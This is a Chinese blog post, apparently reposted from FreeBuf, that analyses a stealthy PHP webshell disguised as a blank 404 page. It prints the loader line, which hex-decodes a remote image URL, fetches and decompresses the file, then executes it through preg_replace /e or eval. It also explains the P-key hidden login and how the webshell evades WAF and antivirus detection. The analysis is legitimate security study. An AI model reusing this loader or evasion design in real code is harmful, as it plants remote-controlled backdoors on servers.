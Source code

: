 ```yaml
---
layout: post
title: 一款猥琐的PHP后门分析
categories:
- Pocket
tags:
---
```

原文地址：http://m.blog.csdn.net/article/details?id=52606050

收藏时间：2017-03-21 14:03:25

<div  >
<p nodeIndex="20">关键看下面这句代码，</p>
<pre class="prettyprint lang-php prettyprinted" nodeIndex="21">
<span class="pln" nodeIndex="154">sprintf</span><span class="pun" nodeIndex="155">(</span><span class="str" nodeIndex="156">'%s?%s'</span><span class="pun" nodeIndex="157">,</span><span class="pln" nodeIndex="158">pack</span><span class="pun" nodeIndex="159">(</span><span class="str" nodeIndex="160">"H*"</span><span class="pun" nodeIndex="161">,</span><span class="str" nodeIndex="162">'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067'</span><span class="pun" nodeIndex="163">),</span><span class="pln" nodeIndex="164">uniqid</span><span class="pun" nodeIndex="165">())</span>
</pre>
<p nodeIndex="22">这里执行之后其实是一张图片，解密出来的图片地址如下：</p>
<pre class="prettyprint lang-html prettyprinted" nodeIndex="23">
<span class="pln" nodeIndex="166">http://7shell.googlecode.com/svn/make.jpg?53280b00f1e85</span>
</pre>
<p nodeIndex="24">然后调用file_get_contents函数读取图片为字符串，然后substr取3649字节之后的内容，再调用gzuncompress解压，得到真正的代码。最后调用preg_replace的修饰符e来执行恶意代码的。这里执行以下语句来还原出恶意样本代码，</p>
<pre class="prettyprint lang-php prettyprinted" nodeIndex="25">
<span class="pun" nodeIndex="167"><?</span><span class="pln" nodeIndex="168">php
echo gzuncompress</span><span class="pun" nodeIndex="169">(</span><span class="pln" nodeIndex="170">substr</span><span class="pun" nodeIndex="171">(</span><span class="pln" nodeIndex="172">file_get_contents</span><span class="pun" nodeIndex="173">(</span><span class="pln" nodeIndex="174">sprintf</span><span class="pun" nodeIndex="175">(</span><span class="str" nodeIndex="176">'%s?%s'</span><span class="pun" nodeIndex="177">,</span><span class="pln" nodeIndex="178">pack</span><span class="pun" nodeIndex="179">(</span><span class="str" nodeIndex="180">"H*"</span><span class="pun" nodeIndex="181">,</span><span class="str" nodeIndex="182">'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067'</span><span class="pun" nodeIndex="183">),</span><span class="pln" nodeIndex="184">uniqid</span><span class="pun" nodeIndex="185">())),</span><span class="lit" nodeIndex="186">3649</span><span class="pun" nodeIndex="187">));</span><span class="pln" nodeIndex="188">
</span><span class="pun" nodeIndex="189">?></span>
</pre>
<p nodeIndex="26">如图所示：</p>
<div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2017-03-21-1662752347/1"/></div>
<p nodeIndex="28">分析这段代码，发现这是一个伪装的404木马(这里实在是太猥琐了…)，其实整个webshell就一个class外加三个function，如图</p>
<div id="RIL_IMG_2" class="RIL_IMG"><img src="/media/posts_images/2017-03-21-1662752347/2"/></div>
<p nodeIndex="30">首先我先看一下它的前端html代码，其中有这么一段js程序</p>
<pre class="prettyprint lang-js prettyprinted" nodeIndex="31">
<span class="pln" nodeIndex="194">document</span><span class="pun" nodeIndex="195">.</span><span class="pln" nodeIndex="196">onkeydown </span><span class="pun" nodeIndex="197">=</span><span class="pln" nodeIndex="198"> </span><span class="kwd" nodeIndex="199">function</span><span class="pun" nodeIndex="200">(</span><span class="pun" nodeIndex="202">)</span><span class="pln" nodeIndex="203"> </span><span class="pun" nodeIndex="204">{</span><span class="pln" nodeIndex="205">evartheEvent</span><span class="pun" nodeIndex="206">=</span><span class="pln" nodeIndex="207"> window</span><span class="pun" nodeIndex="208">.</span><span class="pln" nodeIndex="209">event </span><span class="pun" nodeIndex="210">||</span><span class="pun" nodeIndex="212">;</span><span class="pln" nodeIndex="213">      
</span><span class="kwd" nodeIndex="214">evar</span><span class="pln" nodeIndex="215"> code </span><span class="pun" nodeIndex="216">=</span><span class="pln" nodeIndex="217"> theEvent</span><span class="pun" nodeIndex="218">.</span><span class="pln" nodeIndex="219">keyCode </span><span class="pun" nodeIndex="220">||</span><span class="pln" nodeIndex="221"> theEvent</span><span class="pun" nodeIndex="222">.</span><span class="pln" nodeIndex="223">which</span><span class="pun" nodeIndex="224">;</span><span class="pln" nodeIndex="225"> 
</span><span class="kwd" nodeIndex="226">if</span><span class="pln" nodeIndex="227"> </span><span class="pun" nodeIndex="228">(</span><span class="lit" nodeIndex="229">80</span><span class="pln" nodeIndex="230"> </span><span class="pun" nodeIndex="231">==</span><span class="pln" nodeIndex="232"> code</span><span class="pun" nodeIndex="233">)</span><span class="pln" nodeIndex="234"> </span><span class="pun" nodeIndex="235">{</span><span class="pln" nodeIndex="236">
$</span><span class="pun" nodeIndex="237">(</span><span class="str" nodeIndex="238">"login"</span><span class="pun" nodeIndex="239">).</span><span class="pln" nodeIndex="240">style</span><span class="pun" nodeIndex="241">.</span><span class="pln" nodeIndex="242">display </span><span class="pun" nodeIndex="243">=</span><span class="pln" nodeIndex="244"> </span><span class="str" nodeIndex="245">"block"</span><span class="pln" nodeIndex="246">
</span><span class="pun" nodeIndex="247">}</span><span class="pln" nodeIndex="248">
</span><span class="pun" nodeIndex="249">}</span>
</pre>
<p nodeIndex="32">这里它用document.onkeydown获取用户敲击键盘事件，当code等于80的时候显示login这个div，这里查询了一下keyCode的对照表，查到80对应p和P键</p>
<div id="RIL_IMG_3" class="RIL_IMG"><img src="/media/posts_images/2017-03-21-1662752347/3"/></div>
<p nodeIndex="34">所以触发webshell登陆需要按p键(不按P键页面就是一个空白页，看不到登陆框)，如图所示：</p>
<div id="RIL_IMG_4" class="RIL_IMG"><img src="/media/posts_images/2017-03-21-1662752347/4"/></div>
<p nodeIndex="36">再回到服务端php代码中，可以看到程序用的是对称加密，并且将登陆密码作为加密key，代码如图所示：</p>
<div id="RIL_IMG_5" class="RIL_IMG"><img src="/media/posts_images/2017-03-21-1662752347/5"/></div>
<p nodeIndex="38">再看init()的逻辑</p>
<div id="RIL_IMG_6" class="RIL_IMG"><img src="/media/posts_images/2017-03-21-1662752347/6"/></div>
<p nodeIndex="40">如图所示，先看这句代码</p>
<pre class="prettyprint lang-html prettyprinted" nodeIndex="41">
<span class="pln" nodeIndex="258">$true = 
@gzuncompress(gzuncompress(Crypt::decrypt(pack('H*',  '789c63ac0bbec7b494f12cdb02f6dfac3f833731cf093e163a892990793ebf0a9f1c6b18bb68983b3b47a022002a840c59'), $_POST['key'], true)));</span>
</pre>
<p nodeIndex="42">根据这个解密逻辑我们可以推出，这里其实是将字符串true做了以下加密处理，</p>
<pre class="prettyprint lang-html prettyprinted" nodeIndex="43">
<span class="pln" nodeIndex="259">unpack('H*',Crypt::encrypt(gzcompress(gzcompress('true')),$_POST['key'] , true))</span>
</pre>
<p nodeIndex="44">所以当输入正确密码的时候@gzuncompress返回字符串true，然后程序调用setcookie给客户端返回$_COOKIE[‘key’]，然后值得提一下的是后面这个exit('{"status":"on"}')，这里它与前端代码联系很紧密，我们看前端有个callback函数，如下</p>
<pre class="prettyprint lang-php prettyprinted" nodeIndex="45">
<span class="kwd" nodeIndex="260">function</span><span class="pln" nodeIndex="261"> callback</span><span class="pun" nodeIndex="262">()</span><span class="pln" nodeIndex="263"> </span><span class="pun" nodeIndex="264">{</span><span class="pln" nodeIndex="265">
        varjson </span><span class="pun" nodeIndex="266">=</span><span class="pln" nodeIndex="267"> </span><span class="kwd" nodeIndex="268">eval</span><span class="pun" nodeIndex="269">(</span><span class="str" nodeIndex="270">"("</span><span class="pln" nodeIndex="271"> </span><span class="pun" nodeIndex="272">+</span><span class="pln" nodeIndex="273"> </span><span class="kwd" nodeIndex="274">this</span><span class="pun" nodeIndex="275">.</span><span class="pln" nodeIndex="276">responseText </span><span class="pun" nodeIndex="277">+</span><span class="pln" nodeIndex="278"> </span><span class="str" nodeIndex="279">")"</span><span class="pun" nodeIndex="280">);</span><span class="pln" nodeIndex="281">
</span><span class="kwd" nodeIndex="282">if</span><span class="pln" nodeIndex="283"> </span><span class="pun" nodeIndex="284">(</span><span class="pln" nodeIndex="285">json</span><span class="pun" nodeIndex="286">.</span><span class="pln" nodeIndex="287">status</span><span class="pun" nodeIndex="288">==</span><span class="str" nodeIndex="289">'on'</span><span class="pun" nodeIndex="290">){</span><span class="pln" nodeIndex="291">
window</span><span class="pun" nodeIndex="292">.</span><span class="pln" nodeIndex="293">location</span><span class="pun" nodeIndex="294">.</span><span class="pln" nodeIndex="295">reload</span><span class="pun" nodeIndex="296">();</span><span class="pln" nodeIndex="297">
</span><span class="kwd" nodeIndex="298">return</span><span class="pun" nodeIndex="299">;</span><span class="pln" nodeIndex="300">
    </span><span class="pun" nodeIndex="301">}</span><span class="pln" nodeIndex="302">
        </span><span class="kwd" nodeIndex="303">if</span><span class="pln" nodeIndex="304"> </span><span class="pun" nodeIndex="305">(</span><span class="pln" nodeIndex="306">json</span><span class="pun" nodeIndex="307">.</span><span class="pln" nodeIndex="308">notice</span><span class="pun" nodeIndex="309">)</span><span class="pln" nodeIndex="310"> </span><span class="pun" nodeIndex="311">{</span><span class="pln" nodeIndex="312">
                $</span><span class="pun" nodeIndex="313">(</span><span class="str" nodeIndex="314">"notice"</span><span class="pun" nodeIndex="315">).</span><span class="pln" nodeIndex="316">style</span><span class="pun" nodeIndex="317">.</span><span class="pln" nodeIndex="318">display </span><span class="pun" nodeIndex="319">=</span><span class="pln" nodeIndex="320"> </span><span class="str" nodeIndex="321">"block"</span><span class="pun" nodeIndex="322">;</span><span class="pln" nodeIndex="323">
                $</span><span class="pun" nodeIndex="324">(</span><span class="str" nodeIndex="325">"notice"</span><span class="pun" nodeIndex="326">).</span><span class="pln" nodeIndex="327">innerHTML </span><span class="pun" nodeIndex="328">=</span><span class="pln" nodeIndex="329"> json</span><span class="pun" nodeIndex="330">.</span><span class="pln" nodeIndex="331">notice</span><span class="pun" nodeIndex="332">;</span><span class="pln" nodeIndex="333">
sideOut</span><span class="pun" nodeIndex="334">();</span><span class="pln" nodeIndex="335">
        </span><span class="pun" nodeIndex="336">}</span><span class="pln" nodeIndex="337">
</span><span class="pun" nodeIndex="338">}</span>
</pre>
<p nodeIndex="46">这里执行exit('{"status":"on"}')会返回json串{"status":"on"}，此时前端js代码classback()获取到此响应会执行window.location.reload()刷新，再次请求正好带上前面获取的cookie，然后执行判断COOKIE的逻辑，如图所示</p>
<div id="RIL_IMG_7" class="RIL_IMG"><img src="/media/posts_images/2017-03-21-1662752347/7"/></div>
<p nodeIndex="48">这里跟前面POST的逻辑一样，下面当判断为’true’以后，这里又请求了一张图片，pack出来地址为http://2012heike.googlecode.com/svn/trunk/code.jpg，然后调用_REQUEST获取图片内容，解密解压之后再eval，分析之后发现code.jpg中才是真正的webshell经过加密压缩之后的内容。这里我跟踪了一下代码打印出了真正执行的webshell的内容，</p>
<div id="RIL_IMG_8" class="RIL_IMG"><img src="/media/posts_images/2017-03-21-1662752347/8"/></div>
<p nodeIndex="50">登陆成功之后如图所示：</p>
<div id="RIL_IMG_9" class="RIL_IMG"><img src="/media/posts_images/2017-03-21-1662752347/9"/></div>
<p nodeIndex="52"><span nodeIndex="345"><strong nodeIndex="346">总结：</strong></span></p>
<p nodeIndex="53">这是一个高度隐蔽的webshell，它没有在其代码中用到一些危险函数和敏感字，而是将真正的shell内容经过层层加密处理之后保存到图片当中，丢到服务器上只留下一个url，并且url还是经过加密处理的，所以对外看没有任何特征可寻，过掉了大多数waf以及杀软的查杀。。作者的利用思路新颖，并且前端后端结合紧密，代码精简，各种奇技淫巧，有别于常见的webshell后门，令人佩服！</p>
<p nodeIndex="54">转载地址：http://www.freebuf.com/articles/web/29307.html <br nodeIndex="347"></p>
</div>